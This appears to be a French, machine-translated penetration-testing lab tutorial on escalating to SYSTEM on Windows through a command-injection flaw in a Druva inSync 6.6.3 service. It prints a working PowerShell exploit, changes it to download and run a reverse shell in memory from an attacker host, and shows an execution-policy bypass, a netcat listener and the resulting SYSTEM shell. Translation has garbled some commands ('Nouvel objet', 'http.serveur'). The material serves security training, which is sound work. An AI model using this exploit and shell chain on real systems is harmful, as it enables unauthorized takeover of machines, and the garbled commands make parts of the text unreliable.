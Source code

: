 Services vulnérables
===================

* * * * *

Nous pouvons être en mesure d'élever les privilèges sur des systèmes bien corrigés et bien configurés si les utilisateurs sont autorisés à installer des logiciels ou si des applications/services tiers vulnérables sont utilisés dans toute l'organisation. Il est courant de rencontrer une multitude d'applications et de services différents sur les postes de travail Windows lors de nos évaluations. Examinons un exemple de service vulnérable que nous pourrions rencontrer dans un environnement réel. Certains services/applications peuvent nous permettre de passer à SYSTEM. En revanche, d'autres pourraient provoquer une condition de déni de service ou autoriser l'accès à des données sensibles telles que des fichiers de configuration contenant des mots de passe.

* * * * *

#### Énumération des programmes installés

Comme indiqué précédemment, commençons par énumérer les applications installées pour avoir un aperçu du terrain.

Énumération des programmes installés

```
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127

```

La sortie semble généralement standard pour un poste de travail Windows 10. Cependant, l'application `Druva inSync` se démarque. Une recherche rapide sur Google montre que la version `6.6.3` est vulnérable à une attaque par injection de commande via un service RPC exposé. Nous pourrons peut-être utiliser [ce](https://www.exploit-db.com/exploits/49211) exploiter la PoC pour augmenter nos privilèges. À partir de cet [article de blog](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) qui détaille la découverte initiale de la faille, nous pouvons voir que Druva inSync est une application utilisé pour la "sauvegarde intégrée, la découverte électronique et la surveillance de la conformité", et l'application cliente exécute un service dans le contexte du puissant compte `NT AUTHORITY\SYSTEM` . L'escalade est possible en interagissant avec un service exécuté localement sur le port 6064.

#### Énumération des ports locaux

Faisons une énumération supplémentaire pour confirmer que le service fonctionne comme prévu. Un coup d'œil rapide avec `netstat` montre un service s'exécutant localement sur le port `6064`.

Énumération des ports locaux

```
C:\htb> netstat -ano | findstr 6064

   TCP 127.0.0.1:6064 0.0.0.0:0 ÉCOUTE 3324
   TCP 127.0.0.1:6064 127.0.0.1:50274 ÉTABLI 3324
   TCP 127.0.0.1:6064 127.0.0.1:50510 TIME_WAIT 0
   TCP 127.0.0.1:6064 127.0.0.1:50511 TIME_WAIT 0
   TCP 127.0.0.1:50274 127.0.0.1:6064 ÉTABLI 3860

```

#### ID de processus d'énumération

Ensuite, mappons l'ID de processus (PID) `3324` au processus en cours d'exécution.

ID de processus d'énumération

```
PS C:\htb> get-process -Id 3324

Gère NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
     149 10 1512 6748 3324 0 inSyncCPHwnet64

```

#### Énumération du service en cours d'exécution

À ce stade, nous disposons de suffisamment d'informations pour déterminer que l'application Druva inSync est effectivement installée et en cours d'exécution, mais nous pouvons effectuer une dernière vérification à l'aide de la cmdlet `Get-Service` .

Énumération du service en cours d'exécution

```
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service

```

* * * * *

Exemple d'escalade de privilèges locaux du client Windows Druva inSync
-------------------------------------------------- ------------

#### PoC Druva inSync PowerShell

Avec ces informations en main, essayons l'exploit PoC, qui est ce court extrait de PowerShell.

Code : PowerShell

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)

```

#### Modification de PowerShell PoC

Pour nos besoins, nous voulons modifier la variable `$cmd` à la commande souhaitée. Nous pouvons faire beaucoup de choses ici, comme ajouter un utilisateur administrateur local (ce qui est un peu bruyant, et nous voulons éviter de modifier les choses sur les systèmes clients dans la mesure du possible) ou nous envoyer un reverse shell. Essayons ceci avec [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Téléchargez le script dans notre boîte d'attaque et renommez-le simplement `shell.ps1`. Ouvrez le fichier et ajoutez ce qui suit au bas du fichier de script (en modifiant également l'adresse IP pour qu'elle corresponde à notre adresse et à notre port d'écoute) :

Modification de PowerShell PoC

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

```

Modifiez la variable `$cmd` dans le script PoC de l'exploit Druva inSync pour télécharger notre reverse shell PowerShell en mémoire.

Code : PowerShell

```
$cmd = "powershell IEX(Nouvel objet Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"

```

#### Démarrage d'un serveur Web Python

Ensuite, démarrez un serveur Web Python dans le même répertoire où réside notre script `script.ps1`.

Démarrage d'un serveur Web Python

```
dsgsec@htb[/htb]$ python3 -m http.serveur 8080

```

#### Attraper un shell SYSTEM

Enfin, démarrez un écouteur `Netcat` sur la boîte d'attaque et exécutez le script PoC PowerShell sur l'hôte cible (après [modification de la politique d'exécution PowerShell](https://www.netspi.com/blog/technical/network-penetration- testing/15-ways-to-bypass-the-powershell-execution-policy) avec une commande telle que `Set-ExecutionPolicy Bypass -Scope Process`). Nous retrouverons une connexion shell inversée avec les privilèges `SYSTEM` si tout se passe comme prévu.

Attraper un shell SYSTEM

```
dsgsec@htb[/htb]$ nc -lvnp 9443

écoute sur [tout] 9443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.7] 58611
Windows PowerShell exécuté en tant qu'utilisateur WINLPE-WS01$ sur WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. Tous les droits sont réservés.

PS C:\WINDOWS\system32>whoami

autorité nt\système

PS C:\WINDOWS\system32> hostname

WINLPE-WS01

```

* * * * *

Passer à autre chose
---------

Cet exemple montre à quel point il peut être risqué d'autoriser les utilisateurs à installer des logiciels sur leurs machines et comment nous devons toujours énumérer les logiciels installés si nous atterrissons sur un serveur Windows ou un hôte de bureau. Les organisations doivent restreindre les droits d'administrateur local sur les ordinateurs des utilisateurs finaux en suivant le principe du moindre privilège. De plus, un outil de liste blanche d'applications peut aider à garantir que seuls les logiciels correctement vérifiés sont installés sur les postes de travail des utilisateurs.